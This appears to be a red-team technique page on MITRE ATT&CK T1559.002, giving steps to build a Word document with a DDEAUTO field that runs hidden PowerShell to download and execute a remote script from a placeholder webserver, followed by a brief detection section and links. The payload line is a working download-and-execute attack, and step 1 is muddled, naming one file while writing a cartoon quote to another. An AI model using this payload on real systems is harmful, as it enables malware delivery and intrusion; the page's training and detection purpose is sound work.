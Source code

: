 # [Dynamic Data Exchange](https://attack.mitre.org/techniques/T1559/002/)

## Exploit Syntax: 

1. Create a file called /tmp/gross.txt

   ```powershell
   echo "Rick: Is that Mountain Dew in my quantum transport solution?        Morty: I-I saw you were marking the levels so I had to top it off        Rick: Top it off? Do you know how dangerously toxic this stuff is? And you added it to my portal fluid?" > c:\users\Portal.txt
   ```
2. Host the file on posh as a text/html

3. Open a Microsoft Word Document on a Windows machine

4. Navigate to the tool bar the at top and select the insert tab

   ![pic](../../Resources/gifs/Insert_Tab.gif)

5. Under Quick Parts dropdown select Field then press ok.

   <img src="/Resources/gifs/Step2_Adding_Object-720p.gif" alt="dog" width="800" height="60" title="dog">


6. Right Click toggle field codes and paste the contents below within the `{}` :
    ```powershell 
    { DDEAUTO "C:\\Programs\\Microsoft\\Office\\MSWord.exe\\..\\..\\..\\..\\windows\\system32\\WindowsPowerShell\\v1.0\\powershell.exe -NoP -sta -NonI -W Hidden $e=(New-Object System.Net.WebClient).DownloadString('http://[webserver ip:port]/[saved ps1 file].ps1');powershell $e # " "Oooohwee!"}
    ```
    > NOTE: Nake sure to set your url and file name 

   <img src="/Resources/gifs/Step3_Adding_DDEAuto-720p.gif" alt="addingobject" width="800">

7. Save the document.
---
## Detection Method

1. Investigate embedded code within `Microsoft Office` applications
Searching for `winword.exe` with the `/dde` flag in the command line should indicate a DDE execution. 

2. The `winword.exe` event PID should be the PPID of another process, demonstrating that this DDE flag launched another process (in our case, it launches powershell)


---
## Resources    
* https://www.securitysift.com/abusing-microsoft-office-dde/
* https://1337red.wordpress.com/using-the-dde-attack-with-powershell-empire/
* https://blog.2code-monte.co.uk/2021/03/17/creating-a-cyber-attack-part-9-making-a-malicious-word-document-using-dde-and-powershell/
